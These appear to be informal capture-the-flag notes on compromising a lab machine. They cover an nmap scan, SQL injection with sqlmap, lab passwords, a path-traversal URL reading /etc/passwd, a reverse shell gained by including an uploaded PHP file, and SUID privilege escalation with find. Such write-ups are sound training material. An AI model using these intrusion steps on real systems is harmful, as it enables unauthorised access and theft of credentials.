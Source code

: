 Started with a full namp scan with port scan
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.0.8 or later
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.13.8.255
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:8e:78:ae:b9:ab:36:ee:b1:6b:0d:7d:a8:d7:1e:3c (RSA)
|   256 af:66:49:11:5c:19:32:07:5f:38:82:ad:a6:1b:af:aa (ECDSA)
|_  256 df:68:2c:f2:c8:57:fa:e3:57:19:9b:72:e9:3b:d4:09 (ED25519)
53/tcp   open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
1337/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: EXPOSED
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


The Ftp server has nothing on it 

Found a intersting folder on the web server
http://10.10.236.75:1337/admin/
http://10.10.236.75:1337/admin_101/
http://10.10.236.75:1337/upload-cv00101011/index.php
http://10.10.236.75:1337/file1010111/index.php

Database: expose                                                                                                   
Table: config
[2 entries]
+----+------------------------------+-----------------------------------------------------+
| id | url                          | password                                            |
+----+------------------------------+-----------------------------------------------------+
| 1  | /file1010111/index.php       | 69c66901194a6486176e81f5945b8929 (easytohack)       |
| 3  | /upload-cv00101011/index.php | // ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z

Found a sql injection on the admin_101 pannel exploit it with sqlmap and burp request
got login for pannel passowrd is VeryDifficultPassword!!#@#@!#!@#1231

http://10.10.236.75:1337/file1010111/index.php
This link is asking me to fuzz for DOM elements and parameter fuzzing says also important
Found this hint on the side in the inspecter
Hint: Try file or view as GET parameters?
Found LFI with this link
http://10.10.236.75:1337/file1010111/index.php?file=/../../../../../etc/passwd

On the link this is the user to login into the link zeamkish
http://10.10.236.75:1337/upload-cv00101011/index.php
This is the upload directory for the files
http://10.10.236.75:1337/upload-cv00101011/upload_thm_1001/

Need to use content tampering with burp with get revse shell
https://br4ind3ad.medium.com/port-swigger-file-upload-vulnerability-lab-2-679316315c39

Got rev shell useing this link
http://10.10.236.75:1337/file1010111/index.php?file=../upload-cv00101011/upload_thm_1001/php-reverse-shell.php.png

Got access to the sevrer found ssh creds in the zeamkish directory 
SSH CREDS
`zeamkish:<Readcted>`

after running linpeas on the box i found some maybe usefull privsec
/usr/bin/nano
/usr/bin/find

Got privsec with the find and the suid binary
